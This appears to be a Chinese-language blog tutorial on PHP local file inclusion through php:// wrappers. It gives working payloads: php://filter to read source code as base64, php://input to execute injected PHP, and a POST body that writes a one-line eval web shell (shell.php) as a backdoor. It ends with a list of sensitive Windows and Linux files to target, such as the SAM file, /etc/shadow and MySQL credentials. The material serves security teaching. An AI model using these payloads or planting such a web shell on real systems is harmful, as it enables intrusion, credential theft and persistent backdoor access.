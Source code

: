 以下是php支持的各种协议  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230615173904150-159667820.png)

先来搞一个fileter协议

##### 读取文件源码用法

    php://filter/read=convert.base64-encode/resource=[文件名]
    http://127.0.0.1/include.php?file=php://filter/read=convert.base64-encode/resource=phpinfo.php
    

![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230615180028275-1533917784.png)  
以上是一个base64编码，所以还需要进行解码，解码后的内容就是文件的内容  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230615180303343-197440797.png)

##### 执行php代码用法

    php://input + [POST DATA]
    http://127.0.0.1/include.php?file=php://input
    [POST DATA部分]
    <?php phpinfo(); ?>
    

![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230615180620471-2028039374.png)

##### 写入一句话木马用法

    http://127.0.0.1/include.php?file=php://input
    [POST DATA部分]
    <?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
    

![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230615180834534-2017682864.png)  
这个是可以实现写入一个后门文件，然后用shell管理工具进行连接。

### 附：weindows和linux中的敏感文件的位置

#### windows

C:\\boot.ini //查看系统版本  
C:\\windows\\system32\\inetsrv\\MetaBase.xml //IIS配置文件  
C:\\windows\\repair\\sam //存储Windows系统初次安装的密码  
C:\\ProgramFiles\\mysql\\my.ini //Mysql配置  
C:\\ProgramFiles\\mysql\\data\\mysql\\user.MYD //MySQL root密码  
C:\\windows\\php.ini //php配置信息

#### Linux

/etc/password //账户信息  
/etc/shadow //账户密码信息  
/usr/local/app/apache2/conf/httpd.conf //Apache2默认配置文件  
/usr/local/app/apache2/conf/extra/httpd-vhost.conf //虚拟网站配置  
/usr/local/app/php5/lib/php.ini //PHP相关配置  
/etc/httpd/conf/httpd.conf //Apache配置文件  
/etc/my.conf //mysql配置文件
